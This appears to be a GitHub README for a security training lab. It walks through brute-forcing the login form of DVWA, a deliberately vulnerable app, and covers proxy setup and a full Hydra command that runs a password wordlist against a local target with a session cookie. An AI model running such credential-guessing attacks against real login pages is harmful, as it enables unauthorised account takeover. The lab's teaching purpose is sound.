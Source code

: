 # SIP-DVWA - Brute Force Module

## Brute Force DVWA

Brute forcing web applications involves repeatedly attempting to guess login credentials or access sensitive areas by systematically trying different combinations of usernames and passwords. It can exploit weak or common passwords and is often mitigated by rate-limiting, CAPTCHAs, or account lockouts after multiple failed attempts. Effective defenses against brute force attacks include strong password policies, multi-factor authentication, and monitoring for suspicious login patterns.

## Tools Used In Lesson
- Kali Linux
- Burp Suite
- Hydra
- wfuzz
- Foxy Proxy Standard
- Seclists
- DVWA (Damn Vulnerable Web App)

## Links

- Applications
  - Burp Suite - https://portswigger.net/burp/communitydownload
  - Foxy Proxy - https://getfoxyproxy.org/downloads/
  - Hydra - https://www.kali.org/tools/hydra/
  - wFuzz - https://www.kali.org/tools/wfuzz/
- Web App
  - DVWA Repository - https://github.com/digininja/DVWA
- Wordlist
  - Seclists- https://www.kali.org/tools/seclists/

## Foxy Proxy Install

1. Open Firefox download and install the Foxy Proxy Standard Browser Exstension https://getfoxyproxy.org/downloads/
2. Configure proxy for burpsuite
   1. Click on exstension and select options
      - ![2024-09-11_14-45](https://github.com/user-attachments/assets/3ae3511e-5d6c-461a-a751-99242181359d)
   3. click on proxies tab
      - ![2024-09-11_14-46](https://github.com/user-attachments/assets/b8aca22f-c2e2-4a4a-b07a-97b832318c4a)
   4. configure proxy to match aove screeshot
  
## Brute Force Methods

### Low

## Hydra

- Get PHPSESSID by inspecting the brute force login page. ID is found under network tab
- login with known credentials and follow the URL for the user picture to find the directory of users profile image. Use the names to make a user list .txt file
- Use this command and replace the PHPSESSID with your ID

hydra -L '/home/kali/Documents/users.txt'  -P '/usr/share/seclists/Passwords/darkweb2017-top100.txt'  'http-get-form://127.0.0.1/DVWA/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:H=Cookie\:PHPSESSID=vu38odo9072l1dpa1b7l64nn0m; security=low:F=Username and/or password incorrect'

-L provides list of users
-P provides list of passwords
- http-get-form uses the http get method to insert the user and password from your lists

### Medium

## Coming Soon

### High

## Coming Soon

### Impossible

## Coming Soon

## Links to learn more

- https://owasp.org/www-community/attacks/Brute_force_attack
- https://www.symantec.com/connect/articles/password-crackers-ensuring-security-your-password
- https://www.golinuxcloud.com/brute-force-attack-web-forms

